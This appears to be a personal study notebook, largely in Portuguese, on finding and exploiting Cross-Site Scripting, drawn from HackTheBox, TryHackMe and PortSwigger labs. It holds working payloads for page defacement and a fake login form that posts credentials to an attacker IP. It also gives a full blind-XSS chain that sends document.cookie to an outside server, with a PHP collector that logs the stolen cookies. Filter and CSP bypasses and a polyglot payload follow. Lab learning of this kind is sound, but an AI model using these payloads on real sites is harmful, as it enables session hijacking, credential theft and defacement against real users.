



# Cross-Site Scripting (XSS)

**Finding HIDDEN PARAMETERS:**

**`arjun -u http://marketing.nahamstore.com`**

---

Testar em todos lugares (URL parametros inserindo strings erradas e vendo se refletem na tela, como também em lugares que inserimos em um campo e não são refletidos (ex: campo de desconto, mesmo que nada aconteca, inserir na URL como ?discount=, ou &discount=), e depois procurar em Inspect pela string pois se escaparmos ainda sim pode ser vulnerável) 

- **Cross-Site Scripting (XSS)** (HackTheBox)
    - **Reflected** (ex: resultados de busca) → o código é refletido diretamente pela resposta do servidor.
    - **DOM-based** (ex: parâmetros em URL) → processado inteiramente no lado cliente, sem interação com o servidor.
    - **Stored** (ex: comentários) → o código malicioso é armazenado no banco de dados e exibido a outros usuários.
    
    ---
    
    - Procurar no código em Inspecionar sobre o resultado da busca (ex: search=test, procurar por test) e ver onde está sendo refletido o test (pode ser tanto em HTML tanto em script, vemos como está e tentamos escapar).. (ao estar sendo refletido dentro de uma variável dentro de **script** tag já de inicio, nosso payload nao precisa ser de <script> e sim de o `alert(1)` direto..
    - Comentar o resto (bom se o single quote final estiver fazendo nosso payload n funcionar) = **`//`**
    
    ---
    
    - Automacao de analise de XSS (apenas low-hanging fruit! não acha tudo):
        
        ```bash
        git clone [https://github.com/s0md3v/XSStrike.git](https://github.com/s0md3v/XSStrike.git)
        cd XSStrike
        pip install -r requirements.txt
        
        source venv-xsstrike/bin/activate
        python [xsstrike.py](http://xsstrike.py/) -u "http://www.example.com/search?q=test"
        deactivate
        ```
        
    
    ---
    
    - A partir do momento que conseguimos XSS, podemos partir e atacar de algumas formas.
    - **Deface (quando for Stored XSS)** → usar a vulnerabilidade para mudar o conteudo e alterar a pagina.
        
        ```bash
        # Cor de fundo:
        <script>document.body.style.background = "#141d2b"</script>
        # Imagem de fundo:
        <script>document.body.background = "https://www.site.com/imagem.svg"</script>
        # Título da página (aba do navegador):
        <script>document.title = "Mensagem Hacker"</script>
        # Texto ou conteúdo da página:
        <script>
        document.getElementsByTagName('body')[0].innerHTML = 
          '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by </p></center>';
        </script>
        
        # MUDAR TODOS AO MESMO TEMPO:
        <script>
        document.body.style.background = "#141d2b";
        document.title = "HackTheBox Academy";
        document.getElementsByTagName('body')[0].innerHTML = 
          '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by </p></center>';
        </script>
        ```
        
    - **Phishing (Reflected XSS) →** usar a vulnerabilidade para exibir um formulário de login falso e roubar credenciais.
        - Primeiro precisamos escutar com Netcat na nossa maquina para quando enviarem as credenciais: **`sudo nc -lnvp 80`.**
        - Payload (alterar o IP):
            
            ```bash
            <script>
            document.write('<h3>Please login to continue</h3><form action=http://10.10.16.50><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
            document.getElementById('urlform').remove();
            </script>
            ```
            
    - **Hijacking (Blind XSS) →** usar a vulnerabilidade para quando o código é executado em uma página que você **não tem acesso** (ex: painel de admin, no caso do Lab fazemos em uma sessao de comentario, pois apesar de nao ser full Blind, ele diz que passa por uma verificacao back-end pelo admin).
        
        ### ✅ **1. Subir servidor na nossa maquina:**
        
        ```bash
        mkdir /tmp/tmpserver
        cd /tmp/tmpserver
        sudo php -S 0.0.0.0:80
        
        # ENVIAMOS NOS CAMPOS O SCRIPT:
        <script src=https://<NOSSO_IP>/fullname></script>
        # PARA SABER QUAL EH O CAMPO VULNERAVEL (BLIND)
        
        ```
        
        ---
        
        ### ✅ **2. Crie `script.js`**
        
        ```bash
        nano script.js
        # Conteudo:
        new Image().src='http://10.10.16.50/index.php?c='+document.cookie;
        ```
        
        (Substitua pelo seu IP `tun0`)
        
        ---
        
        ### ✅ **3. Crie `index.php`**
        
        ```bash
        nano index.php
        # Conteudo:
        <?php
        if (isset($_GET['c'])) {
            $list = explode(";", $_GET['c']);
            foreach ($list as $cookie) {
                $cookie = urldecode($cookie);
                $file = fopen("cookies.txt", "a+");
                fputs($file, "IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
                fclose($file);
            }
        }
        ?>
        ```
        
        ---
        
        ### ✅ **4. Injetar o payload no campo vulnerável**
        
        No campo descoberto como vulnerável (ex: `username`, `fullname`, etc), insira:
        
        ```html
        <script src="http://10.10.16.50/script.js"></script>
        ```
        
        ---
        
        ### ✅ **5. Esperar o admin abrir a página**
        
        Assim que ele visualizar os dados:
        
        - O `script.js` é carregado.
        - O cookie de sessão é enviado para o seu `index.php`.
        - **Ver o cookie roubado → cookies.txt**
    
    ---
    
- **Cross-Site Scripting (XSS) (**SYCP **+** TryHackMe**)**
    
    [https://tryhackme.com/r/room/owaspmutillidae](https://tryhackme.com/r/room/owaspmutillidae)
    
    ---
    
    ### **SYCP:**
    
    - Quando estamos procurando por XSS, tentamos inserir em algum campo tags de alert para ver se é vulnerável e depois atacar. Caso o site bloqueie a maioria das tags, podemos tentar utilizar CUSTOM tags, procurar no google por elas.
    - Ao encontrar uma tag aleatória que conseguimos injetar, podemos inserir um onclick=alert(1), pois o **onclick funciona em qualquer tag**.
    - Quando inserimos um onclick, o usuario precisa clicar no texto para carregar o alert, podemos fazer com que o alert abra sem precisar clicar da seguinte maneira:
        - **`url/?search=<animate%20id=”testando”%20contenteditable=”true”%20onfocus=alert(document.cookie)>blablabla#testando`**
            
            Estamos usando o onfocus, pois ao criar um ID e passar ele no final da url, o foco será esse elemento
            
    
    ---
    
    - Procuramos por alguma inserção de dados do cliente que reaparecem na tela (ex: comentarios, barra de pesquisa…), pois caso não exista um filtro por trás isso será uma vulnerabilidade. Inserir um <input> para testar.
    - Nesse caso, ao inserirmos o alert na barra de pesquisa, ele não executa o script na tela porém ao inspecionar encontramos o alert no código, o que podemos fazer é rodar o script através de uma mensagem de erro:
        - <u>url…search?q=blabla</u>
        - Podemos tbm usar o iframe (pesquisar pelo payload)
        - Esse é um DOM xss, ou seja a requisição não é enviada para o banco de dados, apenas fica no client-side
        - Podemos trocar o 1 por document.cookie, e roubar o cookie de outras contas ao entrarem no link
    
    ---
    
    - Caso nosso payload esteja sendo carregado dentro de uma tag e nosso objetivo for quebrar uma aspas simples para em seguida carregar nosso payload porém o site esteja dando um escape nela, ou seja, a aspas simples aparece no inspecionar e na linha porém não fecha o comando, podemos encodar a aspas simples em URL, HTML… (dentro do BurpSuite em Decoder).
    
    ---
    
    - CSP(Content-Security-Policy) → Método de segurança que o site pode ter, no qual é feito pelo próprio navegador, em que por exemplo ele define que o site só pode executar scripts que tem como origem o domínio do site. Encontramos a definição ao inspecionar em Network.
        - Provavalmente o site terá como definição <u>script-src ‘self’;</u>  que é sobre só aceitar script do domínio do site
        - Para burlar isso, CASO ao inserir um valor “blabla” no campo/url e ele aparecer no fim do CSP(inspecionar, Network), Podemos simplesmente procurar por um outro método de definição do script, ex: <u>script-src-elem ‘unsafe-inline’.</u> E inserir o script de alert, pois estaremos redefinindo a execução de scripts por inline, que basicamente significa quando o cliente insere.
    
    ---
    
    ### **TRYHACKME:**
    
    - <u>**Reflected XSS**</u>
        - happens when user-supplied data in an HTTP request is included in the webpage source without any validation. Exemplo: `http://example.com/search?q=<script>alert('XSS')</script>`. Se o alert for refletido diretamente na página sem sanitização, o significa que é um Reflected XSS.
            
            
            
        - **How to test for Reflected XSS:**
            - Parameters in the URL Query String
            - URL File Path
            - Sometimes HTTP Headers (although unlikely exploitable in practice)
    
    ---
    
    - <u>**Stored XSS**</u>
        - stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
            
            
            
        - **Impact:** the malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.
        - **How to test for Stored XSS:**
            - Comments on a blog
            - User profile information
            - Website Listings
    
    ---
    
    - <u>**DOM Based XSS**</u>
        - **DOM → D**ocument **O**bject **M**odel
        
        
        
        - 
    
    ---
    
    - 
    - 
    - <script>alert(1)</script>
    - <svg onload=alert(1)>
    - </textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
    - Quando eh dentro de um img e o < e > é filtrado: /images/cat.jpg" onload="alert('THM');
    - Quando a palavra script está sendo filtrada, duplicar: <sscriptcript>alert('XSS');</sscriptcript>
    - Lab do Portswigger de jQuery em que temos um redirecionamento em que ao inspecionar ele redireciona com um parametro que está na URL, e o backend é em JQuery. Basicamente o que escrevemos estará dentro de um href, então inserimos: **javascript:alert(document.cookie)**
    - Caso a caixa de texto tenha um filtro Client-Side, exemplo: toda vez que digitamos um caracter especial ele some, podemos dar o bypass: interceptar pelo burp e alterar o request para o script
    - DNS rebinding: [https://www.youtube.com/watch?v=90AdmqqPo1Y](https://www.youtube.com/watch?v=90AdmqqPo1Y)
    - Git com vários bypass : [https://github.com/leetCipher/bug-bounty-labs](https://github.com/leetCipher/bug-bounty-labs)
    - SUPREMO **POLYGLOTS (faz o bypass de diversos filtros e tentativas em um só comando)  ⇒ jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e**
